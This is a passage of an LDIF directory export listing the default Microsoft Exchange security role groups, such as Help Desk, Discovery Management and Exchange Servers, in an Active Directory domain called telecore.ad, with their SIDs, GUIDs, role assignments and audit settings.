 e and mail-disable public folders.
distinguishedName: CN=Public Folder Management,OU=Microsoft Exchange Security 
 Groups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89724
uSNChanged: 89843
garbageCollPeriod: 1209600
name: Public Folder Management
objectGUID:: /pt1iic+I0SChKvDKcEkTw==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaYgQAAA==
sAMAccountName: Public Folder Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010101181633.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 4
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Public Folders-Public Folder Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Mail Enabled Public Folders-Public Folder Management,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# UM Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=UM Management,OU=Microsoft Exchange Security Groups,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: UM Management
description: Members of this management role group can manage Unified Messagin
 g organization, server, and recipient configuration.
distinguishedName: CN=UM Management,OU=Microsoft Exchange Security Groups,DC=t
 elecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89729
uSNChanged: 89790
garbageCollPeriod: 1209600
name: UM Management
objectGUID:: 7l0jIdGBLUiaNCZq6rfFRA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaYwQAAA==
sAMAccountName: UM Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 5
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Unified Messaging-UM Management,CN=Role Assignments,CN=RBAC,C
 N=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore
 ,DC=ad
msExchUserBL: CN=UM Prompts-UM Management,CN=Role Assignments,CN=RBAC,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=UM Mailboxes-UM Management,CN=Role Assignments,CN=RBAC,CN=Tel
 ecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=a
 d
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Help Desk, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Help Desk,OU=Microsoft Exchange Security Groups,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Help Desk
description: Members of this management role group can view and manage the con
 figuration for individual recipients and view recipients in an Exchange organ
 ization. Members of this role group can only manage the configuration each us
 er can manage on his or her own mailbox. Additional  permissions can be added
  by assigning additional management roles to this role group.
distinguishedName: CN=Help Desk,OU=Microsoft Exchange Security Groups,DC=telec
 ore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89734
uSNChanged: 89792
garbageCollPeriod: 1209600
name: Help Desk
objectGUID:: 7KLTBwgsS0KPaw36LAYNsA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaZAQAAA==
sAMAccountName: Help Desk
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 6
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=View-Only Recipients-Help Desk,CN=Role Assignments,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
msExchUserBL: CN=User Options-Help Desk,CN=Role Assignments,CN=RBAC,CN=Telecor
 e Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Records Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Records Management,OU=Microsoft Exchange Security Groups,DC=telecore,DC
 =ad
objectClass: top
objectClass: group
cn: Records Management
description: Members of this management role group can configure compliance fe
 atures such as retention policy tags, message classifications, transport rule
 s, and more.
distinguishedName: CN=Records Management,OU=Microsoft Exchange Security Groups
 ,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89739
uSNChanged: 89794
garbageCollPeriod: 1209600
name: Records Management
objectGUID:: 3oZ3CgQyCkGJdyjd6Fzopg==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaZQQAAA==
sAMAccountName: Records Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 7
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Transport Rules-Records Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=Retention Management-Records Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Message Tracking-Records Management,CN=Role Assignments,CN=RB
 AC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchUserBL: CN=Journaling-Records Management,CN=Role Assignments,CN=RBAC,CN=
 Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,D
 C=ad
msExchUserBL: CN=Audit Logs-Records Management,CN=Role Assignments,CN=RBAC,CN=
 Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,D
 C=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Discovery Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Discovery Management,OU=Microsoft Exchange Security Groups,DC=telecore,
 DC=ad
objectClass: top
objectClass: group
cn: Discovery Management
description: Members of this management role group can perform searches of mai
 lboxes in the Exchange organization for data that meets specific criteria.
distinguishedName: CN=Discovery Management,OU=Microsoft Exchange Security Grou
 ps,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89744
uSNChanged: 89796
garbageCollPeriod: 1209600
name: Discovery Management
objectGUID:: 3qCZL+zF5Uawyl8URj8E5Q==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaZgQAAA==
sAMAccountName: Discovery Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 8
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Mailbox Search-Discovery Management,CN=Role Assignments,CN=RB
 AC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchUserBL: CN=Legal Hold-Discovery Management,CN=Role Assignments,CN=RBAC,C
 N=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore
 ,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Server Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Server Management,OU=Microsoft Exchange Security Groups,DC=telecore,DC=
 ad
objectClass: top
objectClass: group
cn: Server Management
description: Members of this management role group have permissions to manage 
 all Exchange servers within the Exchange organization, but members don't have
  permissions to perform operations that have global impact in the Exchange or
 ganization.
distinguishedName: CN=Server Management,OU=Microsoft Exchange Security Groups,
 DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89749
uSNChanged: 89798
garbageCollPeriod: 1209600
name: Server Management
objectGUID:: BzN2et0xoU+FZ7rZnPzeig==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaZwQAAA==
sAMAccountName: Server Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 9
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Transport Queues-Server Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=Receive Connectors-Server Management,CN=Role Assignments,CN=R
 BAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tel
 ecore,DC=ad
msExchUserBL: CN=POP3 And IMAP4 Protocols-Server Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Monitoring-Server Management,CN=Role Assignments,CN=RBAC,CN=T
 elecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC
 =ad
msExchUserBL: CN=Exchange Virtual Directories-Server Management,CN=Role Assign
 ments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurat
 ion,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Servers-Server Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=Exchange Server Certificates-Server Management,CN=Role Assign
 ments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurat
 ion,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Connectors-Server Management,CN=Role Assignments,CN=
 RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=te
 lecore,DC=ad
msExchUserBL: CN=Databases-Server Management,CN=Role Assignments,CN=RBAC,CN=Te
 lecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=
 ad
msExchUserBL: CN=Database Copies-Server Management,CN=Role Assignments,CN=RBAC
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Delegated Setup, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Delegated Setup,OU=Microsoft Exchange Security Groups,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Delegated Setup
description: Members of this management role group have permissions to install
  and uninstall Exchange on provisioned servers. This role group shouldn't be 
 deleted.
distinguishedName: CN=Delegated Setup,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89754
uSNChanged: 89800
garbageCollPeriod: 1209600
name: Delegated Setup
objectGUID:: ijsC8j8sT0CNzo5hP6DSGg==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaaAQAAA==
sAMAccountName: Delegated Setup
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 10
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=View-Only Configuration-Delegated Setup,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Hygiene Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Hygiene Management,OU=Microsoft Exchange Security Groups,DC=telecore,DC
 =ad
objectClass: top
objectClass: group
cn: Hygiene Management
description: Members of this management role group can manage Exchange anti-sp
 am features and grant permissions for antivirus products to integrate with Ex
 change.
distinguishedName: CN=Hygiene Management,OU=Microsoft Exchange Security Groups
 ,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89759
uSNChanged: 89802
garbageCollPeriod: 1209600
name: Hygiene Management
objectGUID:: ECrsAnOJGUOikt5B2sRptQ==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaaQQAAA==
sAMAccountName: Hygiene Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 11
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=View-Only Recipients-Hygiene Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=View-Only Configuration-Hygiene Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Transport Hygiene-Hygiene Management,CN=Role Assignments,CN=R
 BAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tel
 ecore,DC=ad
msExchUserBL: CN=Transport Agents-Hygiene Management,CN=Role Assignments,CN=RB
 AC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchUserBL: CN=Receive Connectors-Hygiene Management,CN=Role Assignments,CN=
 RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=te
 lecore,DC=ad
msExchUserBL: CN=ApplicationImpersonation-Hygiene Management,CN=Role Assignmen
 ts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration
 ,DC=telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Compliance Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Compliance Management,OU=Microsoft Exchange Security Groups,DC=telecore
 ,DC=ad
objectClass: top
objectClass: group
cn: Compliance Management
description: This role group will allow a specified user, responsible for comp
 liance, to properly configure and manage compliance settings within Exchange 
 in accordance with their policy.
distinguishedName: CN=Compliance Management,OU=Microsoft Exchange Security Gro
 ups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89764
uSNChanged: 89804
garbageCollPeriod: 1209600
name: Compliance Management
objectGUID:: eLKYZ1JtrkqKRHy2nbabYA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaagQAAA==
sAMAccountName: Compliance Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 26
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=View-Only Recipients-Compliance Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=View-Only Configuration-Compliance Management,CN=Role Assignm
 ents,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurati
 on,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Audit Logs-Compliance Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Transport Rules-Compliance Management,CN=Role Assignments,CN=
 RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=te
 lecore,DC=ad
msExchUserBL: CN=Retention Management-Compliance Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Message Tracking-Compliance Management,CN=Role Assignments,CN
 =RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=t
 elecore,DC=ad
msExchUserBL: CN=Journaling-Compliance Management,CN=Role Assignments,CN=RBAC,
 CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecor
 e,DC=ad
msExchUserBL: CN=Information Rights Management-Compliance Management,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=Data Loss Prevention-Compliance Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Compliance Admin-Compliance Management,CN=Role Assignments,CN
 =RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=t
 elecore,DC=ad
msExchUserBL: CN=Audit Logs-Compliance Management,CN=Role Assignments,CN=RBAC,
 CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecor
 e,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Security Reader, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Security Reader,OU=Microsoft Exchange Security Groups,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Security Reader
description: Membership in this role group is synchronized across services and
  managed centrally. This role group is not manageable through the administrat
 or portals. Members of this role group may include cross-service administrato
 rs, as well as external partner groups and Microsoft Support. By default, thi
 s group may not be assigned any roles. However, it will be a member of the Se
 curity Reader role groups and will inherit the capabilities of that role grou
 p.
distinguishedName: CN=Security Reader,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89769
uSNChanged: 89806
garbageCollPeriod: 1209600
name: Security Reader
objectGUID:: e6cIUWSdlE2UvPa0XcDvKA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaawQAAA==
sAMAccountName: Security Reader
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 84
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Security Reader-Security Reader,CN=Role Assignments,CN=RBAC,C
 N=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore
 ,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Security Administrator, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Security Administrator,OU=Microsoft Exchange Security Groups,DC=telecor
 e,DC=ad
objectClass: top
objectClass: group
cn: Security Administrator
description: Membership in this role group is synchronized across services and
  managed centrally. This role group is not manageable through the administrat
 or portals. Members of this role group may include cross-service administrato
 rs, as well as external partner groups and Microsoft Support. By default, thi
 s group may not be assigned any roles. However, it will be a member of the Se
 curity Administrators role groups and will inherit the capabilities of that r
 ole group.
distinguishedName: CN=Security Administrator,OU=Microsoft Exchange Security Gr
 oups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89774
uSNChanged: 89808
garbageCollPeriod: 1209600
name: Security Administrator
objectGUID:: ga5Ws/XhMUiPsyHFczBMeA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxabAQAAA==
sAMAccountName: Security Administrator
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 85
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Security Admin-Security Administrator,CN=Role Assignments,CN=
 RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=te
 lecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Exchange Servers, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=telecore,DC=a
 d
objectClass: top
objectClass: group
cn: Exchange Servers
description: This group contains all the Exchange servers. This group shouldn'
 t be deleted.
member: CN=Exchange Install Domain Servers,CN=Microsoft Exchange System Object
 s,DC=telecore,DC=ad
member: CN=EX-SRV,OU=Win Servers,DC=telecore,DC=ad
distinguishedName: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,D
